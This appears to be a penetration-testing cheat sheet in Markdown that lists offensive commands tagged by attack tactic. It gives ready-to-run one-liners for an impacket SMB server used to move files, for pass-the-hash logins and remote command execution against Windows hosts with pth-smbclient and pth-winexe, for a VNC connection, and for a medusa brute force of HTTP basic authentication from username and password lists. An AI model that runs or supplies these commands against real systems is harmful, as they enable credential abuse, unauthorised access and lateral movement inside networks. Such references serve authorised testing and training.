 ## fake smb server for uploading and downloading files
- `python3 /opt/impacket/examples/smbserver.py -smb2support files $(pwd)`

---

# pth-smbclient
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

## connect to target-share and auth via ntlm-hash
- `pth-smbclient --user=username --pw-nt-hash -m smb3 \\\\target-ip\\target-share ntlm-hash`

---

# pth-winexe
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

# run command on target-ip and auth via ntlm-hash
- `pth-winexe -U ntlm-hash //target-ip cmd`

---

# vinagre
- service: vnc
- tactics: lateral_movement

# vnc connect
- `vinagre`

---

# medusa
- service: http
- service: basic_auth
- tactics: credential_access

## bruteforce basic_auth
- `medusa -h target-ip -U ../creds/usernames.txt -P ../creds/passwords.txt -M http -m DIR:/printers -T 10`

---